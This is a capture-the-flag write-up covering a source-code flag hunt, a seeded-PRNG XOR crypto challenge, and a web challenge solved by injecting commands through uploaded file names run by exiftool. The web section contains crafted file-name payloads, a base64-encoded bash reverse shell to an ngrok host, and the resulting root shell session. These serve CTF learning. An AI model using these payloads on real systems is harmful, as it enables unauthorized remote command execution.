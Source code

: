 ## sanity check
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/983bd774-9124-4545-a014-a3422392669e)
- go to the source code and search for "0CTF"
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/db927e03-bb29-4d6c-8126-63ddf0d56930)
0CTF{0ut_0f_B0unds}
## echoes of encryption/crypto
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/f09f6cda-98e8-4ed4-b3bf-fe524ada90b4)
- encrypt.py
```
import random
import string
def encrypt_string(input_string, seed):
    random.seed(seed)   
    allowed_chars = string.ascii_letters + string.digits
    key = ''.join(random.choices(allowed_chars, k=len(input_string)))
    encrypted_string = ''
    for i in range(len(input_string)):
        encrypted_char = chr(ord(input_string[i]) ^ ord(key[i]))
        encrypted_string += encrypted_char
    return encrypted_string.encode().hex()
seed_value = '311222'
input_string = ""
encrypted = encrypt_string(input_string, seed_value)
```
- cipher
```
5e04610a22042638723c571e1a5436142764061f39176b4414204636251072220a35583a60234d2d28082b
```
- decrypt.py
```
import random
import string
#seed1='CVE-2022-42269'
#seed1='202242269'
#seed1='CVE-2022-42269'
#seed1=7.9
seed1=202242269
random.seed(seed1)
allowed_chars = string.ascii_letters + string.digits
key = ''.join(random.choices(allowed_chars, k=43))
# print("key si ",key,"len is ",len(key))
c='5e04610a22042638723c571e1a5436142764061f39176b4414204636251072220a35583a60234d2d28082b'
#after applying bytes.fromhex()
value1=bytes.fromhex(c)
#after decodig to asci from bytes
value2=value1.decode()
# print("value2 is ",value2,"len is ",len(value2))#43
ans=''
for i in range(len(value2)):
    x=chr(ord(value2[i])^ord(key[i]))
    ans=ans+x
# print("ans is ",ans)
# print("rev is ",ans[::-1])
print("ans ",ans)
```
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/8d3cfc3a-63f9-46c7-9219-f1446ab9be83)
- 0CTF{alw4y5_r3ad_7he_d3scr!pti0n_c4r3fully}
## Data's Data/web
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/d5c96849-aec8-4582-941e-ad7d39975e82)
- frontend
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/4053f72d-236c-45d1-b839-6f02e34505cc)
- it runs exiftool on the provided file
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/1416894e-d4e4-48b2-9515-a2fa058815cc)
- so it is could be like `exiftool filename.extension`
- so if this is the case we can try to execute commands(cmd injection)
- IFS -internal field seperator
## making malicious file names
1:try id
```
C:\home\radha\Desktop\exiftool> touch '$(id)'                                                                             
C:\home\radha\Desktop\exiftool> ls
'$(id)'
```
- result
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/5d3327b1-a5e4-4ca9-8df3-946c5b61e4b5)
2: try to have a blind cmd execution(sleep?)
```
C:\home\radha\Desktop\exiftool> touch '$(sleep${IFS}10)'                                                                             
C:\home\radha\Desktop\exiftool> ls
'$(id)'  '$(sleep${IFS}10)'
```
- here the `${IFS}` is for a space
- we do get the response only after 10 secnonds from browser web page
### getting reverse shell
- `bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17011 0>&1`
- started a ngrok tcp server at port x(say 1234)  `ngrok tcp 1234`
- started a netcat listner at port x(1234) `nc -lvp 1234`
- the`0.tcp.in.ngrok.io` is part of hostname
- the 18308 is the corresponding port
```
C:\home\radha\Desktop\exiftool> ngrok tcp 1234
```
![image](https://github.com/m0wn1ka/ctf/assets/127676379/423bc5e4-a413-4b29-8906-edebd460f41f)
- the charcters like &> must be encoded
- so i did base64 encoding
- payload of reverse shell
```
C:\home\radha\Desktop\exiftool> echo 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17011 0>&1'|base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg==
```
- we need this payload to be base64 decoded on the server and get executed
- so we need to run on server like this
```
echo THIS_PAYLOAD |base64 -d|bash
```
- so this must be exeuted on the server side
- just as we executed sleep by $(sleep${IFS}10) we follow a similar approach
```
$(echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64 -d|bash)
$(echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64${IFS}-d|bash)
```
- so this must be the name of file

- creatig file
```
touch "$(echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64${IFS}-d|bash)"
```
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/38495d4c-354b-480a-8d08-5c141a1350d1)
- rev shell
```
C:\home\radha\Desktop\exiftool> nc -nvlp 1234 
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37650
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@traboda:/# whoami
whoami
root
root@traboda:/# ls
ls
```
- gettgin flag
```
root@traboda:/# cat Do*
cat Do*
FROM python:3.11
WORKDIR /
RUN apt update
RUN apt -y install exiftool
COPY requirements.txt requirements.txt
RUN pip install -r requirements.txt
COPY . .
ENV flag="0CTF{Congratulations_for_finding_the_flag}"
EXPOSE 80
CMD python3 index.pyroot@traboda:/#
```
- 0CTF{Congratulations_for_finding_the_flag}

